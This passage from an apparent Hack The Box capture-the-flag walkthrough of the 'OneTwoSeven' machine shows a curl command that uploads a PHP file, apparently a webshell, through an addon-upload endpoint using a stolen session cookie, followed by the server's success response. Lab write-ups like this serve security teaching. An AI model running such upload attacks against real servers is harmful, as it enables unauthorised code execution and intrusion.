Time to upload.

```
# curl -i -b "PHPSESSID=emhvsbp1urdd9cbabfhkcv20s0" -F "addon=@ots-endgame.php" "http://onetwoseven.htb:60080/addon-download.php/addon-upload.php"
HTTP/1.1 302 Found
Date: Sat, 27 Apr 2019 12:51:59 GMT
Server: Apache/2.4.25 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /menu.php
Content-Length: 27
Content-Type: text/plain;charset=UTF-8

File uploaded successfull.y
```

<a class="image-popup">
![67d22bc7.png](/assets/images/posts/onetwoseven-htb-walkthrough/67d22bc7.png)
</a>

Sweet.

